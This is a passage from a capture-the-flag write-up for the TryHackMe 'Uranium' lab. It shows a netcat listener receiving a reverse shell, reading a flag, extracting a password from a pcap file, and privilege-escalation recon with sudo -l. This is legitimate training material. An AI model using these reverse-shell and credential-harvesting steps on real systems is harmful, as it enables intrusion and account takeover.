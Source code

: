 ```bash
╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                                       ─╯
listening on [any] 1337 ...
connect to [10.9.1.54] from (UNKNOWN) [10.10.105.19] 48468
bash: cannot set terminal process group (1494): Inappropriate ioctl for device
bash: no job control in this shell
hakanbey@uranium:~$ ls
chat_with_kral4  mail_file  user_1.txt
hakanbey@uranium:~$ cat user_1.txt 
thm{[REDACTED]}
```
We can read the flag from the user_1!

Here comes the second part of the recon :)

After digging all arround the machine...

We foud a pcap file, so I downloaded and read it with wireshark
```bash
hakanbey@uranium:~$ find / -name *.pcap 2> /dev/null 
/var/log/hakanbey_network_log.pcap
```
This is a log from a communication and we have a plain text password!

![password](password.png)

Perfect!! We have the password to start the chat binary!

```bash
hakanbey@uranium:~$ ./chat_with_kral4 
PASSWORD :[REDACTED]
kral4:hi hakanbey

->hi
hakanbey:hi
kral4:how are you?

->fine and you ?
hakanbey:fine and you ?
kral4:what now? did you forgot your password again

->yes
hakanbey:yes
kral4:okay your password is [REDACTED] don't lose it PLEASE
kral4:i have to go
kral4 disconnected

connection terminated
hakanbey@uranium:~$ sudo -l 
[sudo] password for hakanbey: 
Matching Defaults entries for hakanbey on uranium:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hakanbey may run the following commands on uranium:
    (kral4) /bin/bash
```